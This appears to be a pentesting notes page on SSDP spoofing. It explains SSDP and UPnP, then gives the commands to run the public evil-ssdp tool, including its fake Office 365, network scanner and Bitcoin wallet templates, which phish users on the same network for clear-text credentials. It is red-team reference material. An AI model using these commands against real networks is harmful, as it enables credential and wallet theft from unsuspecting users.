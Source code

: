# ⭕ SSDP Spoofing

## SSDP

SSDP or Simple Service Discovery Protocol is a network protocol designed for advertisement and discovery of network services. It can work without any DHCP or DNS Configuration. It was designed to be used in residential or small office environments. It uses UDP as the underlying transport protocol on port 1900. It uses the HTTP method NOTIFY to announce the establishment or withdrawal of services to a multicast group. It is the basis of the discovery protocol UPnP.

## UPnP

UPnP or Universal Plug and Play is a set of networking protocols that allows networked devices, such as personal computers, printers, Internet gateways, Wi-Fi access points, and mobile devices to discover each other’s availability on the network and establish network services for communications, data sharing, and entertainment. The UPnP architecture supports zero-configuration networking. A UPnP compatible device from any vendor can dynamically join a network, obtain an IP address, announce its name, advertise or convey its capabilities upon request, and learn about the presence and capabilities of other devices.

## Evil SSDP

{% embed url="https://github.com/initstring/evil-ssdp" %}

A tool for setting up a fake SSDP device and phishing the user for clear text credentials:

{% hint style="warning" %}
The attacker has to be in the same network as the target systems.
{% endhint %}

```
git clone https://github.com/initstring/evil-ssdp.git
cd evil-ssdp/ls
python3 evil-ssdp.py --help
```

to run the attack :&#x20;

```
python3 evil-ssdp.py -i eth0
```

{% hint style="info" %}
#### The default template is office 365 login console, you can change the template with -t \[template name]
{% endhint %}

&#x20;to setup a fake scanner for phishing, use the scanner template:

```
python3 evil-ssdp.py eth0 --template scanner
```

if the user clicks on the scanner icon in windows explorer > networks, the default browser will open up a web page and ask for credentials in order to connect to the device:

![](<../../.gitbook/assets/image (33) (1) (1) (1) (1).png>)

if the user enters the credentials, EvilSSDP will grab and show them

![](<../../.gitbook/assets/image (15) (1) (1).png>)

## Other templates

### Office 365

```
python3 evil_ssdp.py eth0 -t office365
```

![](../../.gitbook/assets/image.png)

### Bitcoin Wallet

```
python3 evil_ssdp.py eth0 -t bitcoin -b
```

![](<../../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

check the repository for other available templates or use your own template and xml description file.
